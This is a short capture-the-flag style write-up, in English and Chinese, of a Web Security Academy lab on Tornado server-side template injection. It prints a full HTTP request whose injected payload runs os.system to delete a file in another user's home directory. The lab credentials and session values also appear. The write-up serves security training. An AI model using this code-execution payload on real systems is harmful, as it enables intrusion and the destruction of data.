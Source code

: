 # Lab: Basic server-side template injection (code context)

This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

## SSTI
* 題目說是 Tornado template injection，稍微找一下可以知道相關的 pattern，又提示 preferred name 有問題，用 burp 稍微改一下 post 的內容並且瀏覽任意文章，並且留言，可以觀察到名字的變化，因此得知存在問題
```
POST /my-account/change-blog-post-author-display HTTP/1.1
Host: ac0f1f501f20ed15c014678b00c40027.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5 (Ergänzendes Update)) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.1.1 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Origin: https://ac0f1f501f20ed15c014678b00c40027.web-security-academy.net
Connection: close
Referer: https://ac0f1f501f20ed15c014678b00c40027.web-security-academy.net/my-account
Cookie: session=6GDUacSqiRhgPv35mH4inDQ7RX1bZwag
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-Forwarded-For: 127.0.0.1

blog-post-author-display=__import__("os").system("rm /home/carlos/morale.txt")&csrf=cetkEwQ44Z81FTKm2Cpc1NWeUE6Vu8aY
```